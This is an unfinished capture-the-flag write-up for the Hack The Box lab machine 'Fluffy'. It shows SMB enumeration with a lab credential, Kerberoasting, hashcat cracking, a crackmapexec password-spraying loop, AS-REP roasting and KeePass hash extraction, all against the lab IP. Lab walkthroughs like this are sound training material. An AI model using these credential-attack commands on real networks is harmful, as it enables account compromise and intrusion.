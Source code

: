 # **HTB Fluffy Write-Up: Progress Summary**

### **Machine Overview**
- **Name**: Fluffy  
- **OS**: Windows (Active Directory)  
- **Difficulty**: Easy  
- **Key Techniques**: Kerberoasting, SMB Enumeration, KeePass Exploitation, Certificate Abuse  

---

## **Steps Taken So Far**

### **1. Initial Enumeration**
#### **SMB Share Discovery**
- Used `smbclient` and `nxc` to explore shares:
  ```bash
  smbclient -L //10.10.11.69 -U 'fluffy.htb\j.fleischman%J0elTHEM4n1990!'
  ```
- Found **IT share** with write access:
  ```
  Everything-1.4.1.1026.x64.zip  
  KeePass-2.58.zip  
  EfsPotato.exe  
  Upgrade_Notice.pdf  
  ```

#### **Kerberoasting Attempt**
- Requested TGS tickets for service accounts:
  ```bash
  impacket-GetUserSPNs fluffy.htb/j.fleischman:'J0elTHEM4n1990!' -dc-ip 10.10.11.69 -request -outputfile kerb_hashes.txt
  ```
- **Service Accounts Found**:
  - `ca_svc` (AD Certificate Services)
  - `winrm_svc` (WinRM Service)
  - `ldap_svc` (LDAP Service)

- **Cracking Attempts**:
  - Ran `hashcat` with `rockyou.txt` → **No success**.
  - Tried custom wordlists (e.g., `Fluffy2025!`, `P@ssw0rd123`) → **Still no crack**.

---

### **2. Exploring Alternative Paths**
#### **Everything Search Tool Analysis**
- Extracted strings from `everything.exe`:
  ```bash
  strings everything.exe | grep -i "c:\\\\users\\\\" > paths.txt
  ```
- **Goal**: Find KeePass database paths (e.g., `C:\Users\Administrator\Documents\Passwords.kdbx`).

#### **KeePass Exploitation**
- Extracted `KeePass-2.58.zip`:
  ```bash
  unzip KeePass-2.58.zip
  ```
- Searched for KeePass configs:
  ```bash
  grep -r "RecentFiles" KeePass-2.58/
  ```
- **If found**: Use `keepass2john` to extract hashes.
- 
---

### **3. Next Steps**
#### **If Kerberoasting Fails**
1. **Password Spraying** (Try common service account passwords):
   ```bash
   for user in ca_svc winrm_svc ldap_svc; do
       for pass in 'Fluffy@2025!' 'P@ssw0rd123' 'Service123!'; do
           crackmapexec winrm 10.10.11.69 -u $user -p $pass -d fluffy.htb
       done
   done
   ```

2. **Check for AS-REP Roastable Accounts**:
   ```bash
   impacket-GetNPUsers fluffy.htb/ -usersfile users.txt -dc-ip 10.10.11.69
   ```

#### **If KeePass Database is Found**
1. **Extract Hash**:
   ```bash
   keepass2john Passwords.kdbx > keepass.hash
   hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
   ```

2. **Open KeePass DB** (If cracked):
   ```bash
   kpcli --kdb Passwords.kdbx --keyfile keyfile.key
   ```
---

## **Conclusion**
### **Current Status**
- **Kerberoasting**: Hashes obtained but not cracked yet.
- **KeePass Database**: Still searching for `.kdbx` file.

### **Next Moves**
1. **Find KeePass DB** (Check `C:\Users\*\AppData\Local\Everything\*.db`).
2. **Password Spraying** (Try `winrm_svc` with common passwords).
